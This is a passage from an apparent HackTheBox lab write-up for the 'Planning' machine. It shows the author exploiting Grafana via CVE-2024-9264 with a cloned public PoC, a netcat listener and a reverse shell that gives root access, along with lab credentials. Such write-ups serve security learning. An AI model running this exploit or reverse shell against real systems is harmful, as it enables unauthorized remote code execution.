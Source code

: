 
Upon searching the internet, it seems that it was a vulnerable version of Grafana which allows attackers to gain RCE in the system. This vulnerability is based on the CVE-2024-9264. I saw github exploits/PoC in this link: [(CVE-2024–9264)](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py).

#### Initial Foothold
To gain the initial foothold to the machine, I cloned the github repository in my kali machine.
``` kali-terminal
┌──(kali㉿kali)-[~/Desktop/HTB_Machines/Planning]
└─$ git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git             
Cloning into 'CVE-2024-9264-RCE-Exploit'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 6), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 5.73 KiB | 5.73 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

After cloning I proceed to the created directory:
``` kali-terminal
┌──(kali㉿kali)-[~/Desktop/HTB_Machines/Planning]
└─$ cd CVE-2024-9264-RCE-Exploit
```

Before running the exploit, I setup a netcat listener:
```kali-terminal
┌──(kali㉿kali)-[~/Desktop/HTB_Machines/Planning]
└─$ nc -lnvp 9443
```
Then I ran the python script to execute the exploit:
```kali-terminal
python poc.py --url http://grafana.planning.htb:80 --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.59 --reverse-port 9443
```

On the listener, I gained access to the listener and proceeded to enumerate it.
```kali-terminal
┌──(kali㉿kali)-[~/Desktop/HTB_Machines/Planning]
└─$ nc -lnvp 9443                        
listening on [any] 9443 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.11.68] 55718
sh: 0: can't access tty; job control turned off
# bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# ls
ls
LICENSE
bin
conf
public
root@7ce659d667d7:~# whoami
whoami
root
```
